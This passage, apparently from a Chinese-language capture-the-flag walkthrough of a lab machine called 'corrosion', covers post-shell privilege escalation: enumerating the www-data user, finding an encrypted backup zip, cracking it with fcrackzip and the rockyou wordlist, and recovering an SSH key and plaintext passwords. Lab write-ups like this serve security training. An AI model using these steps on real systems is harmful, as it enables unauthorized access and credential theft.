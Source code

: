     获得`shell`
    

## 提权

1. 查看权限
    
    ```python
    www-data@corrosion:/var/www/html/blog-post/archives$ whoami
    www-data
    www-data@corrosion:/var/www/html/blog-post/archives$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    www-data@corrosion:/var/www/html/blog-post/archives$ uname -a
    Linux corrosion 5.11.0-25-generic #27-Ubuntu SMP Fri Jul 9 23:06:29 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
    ```
    
2. 寻找敏感文件
    - 在`/var/backups`下发现文件`user_backups.zip` ,刚好有权限，我们将它复制到`/tmp`目录并且解压
        
        ```python
        www-data@corrosion:/var/backups$ ls -al
        -rw-r--r--  1 root root    3285 Jul 30  2021 user_backup.zip
        www-data@corrosion:/var/backups$ cp user_backup.zip /tmp
        www-data@corrosion:/var/backups$ cd /tmp
        www-data@corrosion:/tmp$ unzip user_backup.zip
        unzip user_backup.zip
        Archive:  user_backup.zip
           skipping: id_rsa                  unable to get password
           skipping: id_rsa.pub              unable to get password
           skipping: my_password.txt         unable to get password
           skipping: easysysinfo.c           unable to get password
        ```
        
        发现需要密码，我们将它（靶机使用python搭建简易服务器）下载到`kali`
        
3. 破解`zip`文件
    
    使用`fcrackzip`工具进行破解，并且使用指点`rockyou` （破解率较高）
    
    ```python
    fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u user_backup.zip 
    
    PASSWORD FOUND!!!!: pw == !randybaby
    ```
    
    破解出密码`!randybaby`
    
4. 查看压缩包文件
    
    解压出四个文件 `id_rsa` `id_rsa.pub` `my_password.txt` `easysysinfo.c`
    
    ```python
    # my_password.txt 感觉像是randy用户的密码
    randylovesgoldfish1998
    ```
    
